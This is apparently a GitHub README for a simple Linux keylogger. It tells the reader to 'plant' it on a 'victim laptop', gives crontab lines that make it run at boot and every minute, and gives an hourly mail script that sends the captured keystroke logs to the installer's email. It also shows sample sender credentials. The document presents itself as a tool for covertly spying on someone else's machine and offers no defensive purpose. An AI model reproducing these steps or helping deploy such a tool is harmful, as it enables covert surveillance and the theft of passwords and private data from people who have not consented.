 # skl = Simple Key Logger

Just a simple keylogger for linux

### Installing the required dependencies

        pip3 install -r requirements.txt

### Plant it own victim laptop
copy the files to any directory
on victim linux machine open linux terminal and crontab to run it at boot

    crontab -e

and at  the end of crontab add the following

    * * * * * cd (directory of keyloger) ; ./kl.py &
    0 * * * * cd (directory of keyloger) ; ./mail.py

restart the crontab or reboot

### Configuring to mail it to your email
open the mail.py with your favorite text editor
and put the email and pass word in the email and password variable and the email to recive the log file.

for example:
```python
email = 'sender@gmail.com'
password = 'password'
semail =  'reciver@gmail.com'
```